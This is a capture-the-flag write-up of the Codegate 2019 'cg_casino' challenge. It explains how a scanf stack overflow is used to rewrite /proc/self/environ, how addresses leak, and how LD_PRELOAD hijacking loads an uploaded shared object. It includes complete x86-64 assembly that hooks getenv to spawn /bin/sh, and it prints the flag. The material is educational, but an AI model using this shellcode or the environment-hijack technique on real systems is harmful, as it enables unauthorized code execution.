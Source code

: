 # Codegate CTF 2019 Preliminary
## cg_casino
* `CODEGATE{24cb1590e54e43b254c99404e4f86543}`
* [hook.S](https://github.com/ssspeedgit00/CTF/blob/master/2019/codegate/cg_casino/hook.S)
* [flag.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/codegate/cg_casino/flag.py)
### The challege
* The files
```
.
├── Dockerfile
├── docker-compose.yml
├── libc.so.6
├── share
│   ├── cg_casino
│   └── flag_XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
├── tmp
└── xinetd
```
* Menu
```
$$$$$$$$$$$$$$$$$$$$$$$$$$$
$$$$$$$  CG CASINO  $$$$$$$
$$$$$$$$$$$$$$$$$$$$$$$$$$$
1) put voucher
2) merge voucher
3) lotto
4) up down game
5) slot machine
6) exit
>
```
We can use `put voucher` to named a new file, `merge voucher` will read `0x1000` byte from the file by giving file name and write it to the new file. There are also some meaningless-seemed gambling games.
### Control the content of file
We are not able to control the content of file by opening `/dev/stdin` or `/proc/self/fd/0` due to the docker configuration. That means we need to find out some file already existed and its content is controllable.
There are some file we can think about it under `/proc/self/`: mem, stack, environ, etc.
The `/proc/self/environ` is interesting in this case, because there are `**envp` on the stack and they are point to the strings of `environ`, and there is a buffer overflow occurred by `scanf` in the `main` function of the binary.
We test whether the content of `/proc/self/environ` will changed by overwrite the `environ` on the stack, the result:
```shell
gdb-peda$ x/s 0x7ffc68771274
0x7ffc68771274:	'a' <repeats 16 times>
gdb-peda$ cat /proc/106464/environ
aaaaaaaaaaaaaaaabin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=58f0e86c0c81ERASER1=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
```
That's awesome!
### Information leak
There is inforamtion leak by input non numeric chracter when you play `lotto`, but only leak the address of libc at first. When you play `slot machine` first, then play `lotto`, you can leak the address of stack this time.
### Exploit
For now we are able to upload a 0x1000-byte file. We found `slot machine` will call `system("/usr/local/clear")`, So we decided to upload `hook.so` file, hook the function that will be called by `/usr/bin/clear`.
* hook.S
```nasm
; nasm -f elf64 hook.S -o hook.o && ld --shared hook.o -o hook.so
; ubuntu 16.04 GNU ld (GNU Binutils for Ubuntu) 2.26.1
[BITS 64]
	global getenv:function
	section .text
getenv:
	mov rax, 0x68732f6e69622f
	push rax
	mov rdi, rsp
	xor esi, esi
	push 0x3b
	pop rax
	cdq
	syscall
```
There was an interesting thing, when we linked it with `ld` in ubuntu 18.04, the size of ELF came out was too big, but with the old version of `ld` in ubuntu 16.04 the size will be small enough. Awesome again!

Upload `hook.so` and overwrite `LD_PRELOAD=./hook.so` then call `slot machine` to trigger `system("/usr/local/clear")`, `getenv` will be hooked by `hook.so` and execute our shellcode.
* [flag.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/codegate/cg_casino/flag.py)
### The flag: `CODEGATE{24cb1590e54e43b254c99404e4f86543}`